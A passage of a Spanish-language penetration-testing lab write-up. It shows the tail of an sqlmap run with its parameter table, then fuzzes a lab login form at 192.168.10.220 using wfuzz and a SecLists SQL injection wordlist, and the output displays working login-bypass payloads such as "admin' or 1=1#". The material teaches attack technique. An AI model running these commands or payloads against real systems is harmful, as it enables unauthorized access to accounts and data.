 ```bash
...
[*] ending @ 16:24:24 /2025-07-24/
```

| Parámetros | Descripción |
|--------------------------|
| *-u*	     | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--forms*  | Analiza y prueba formularios en la URL objetivo. |
| *--dump*   | Extraer datos de una tabla específica. |

Podemos probar esos usuarios para entrar al login.

<br>

<h3 id="wfuzz">Aplicando Fuzzing a Campo Vulnerable a SQLi con wfuzz</h3>

Otra cosa que podemos hacer para probar si un campo es vulnerable a **Inyecciones SQL**, es utilizar un wordlist que contenga distintas inyecciones y una herramienta que ejecute ese wordlist.

Para estos casos, la herramienta **wfuzz** es bastante útil.

Utilizaremos un wordlist de **SecLists** que se encuentra en la ruta `/seclists/Fuzzing/SQLi/quick-SQLi.txt`.

Y como sabemos que al ganar acceso al login, nos redirecciona a otra página, entonces podemos agregar el **código 200** como un filtro para que no los muestre y capture respuestas distintas.

O también podemos agregar un filtro para que solo nos dé las respuestas con **código 302**.

Esto ya es como a ti te guste.

Probemos con el filtro de **código 302**:
```bash
wfuzz -c -t 300 -z file,/usr/share/wordlists/seclists/Fuzzing/SQLi/quick-SQLi.txt -d 'alias=FUZZ&password=admin' --sc 302 http://192.168.10.220/login.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.10.220/login.php
Total requests: 77

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000043:   302        97 L     204 W      2536 Ch     "admin'or 1=1 or ''='"                                                                                                       
000000041:   302        97 L     204 W      2536 Ch     "admin' or '1'='1'#"                                                                                                         
000000046:   302        97 L     204 W      2536 Ch     "admin' or 1=1#"                                                                                                             

Total time: 0.630275
Processed Requests: 77
Filtered Requests: 74
Requests/sec.: 122.1688
```
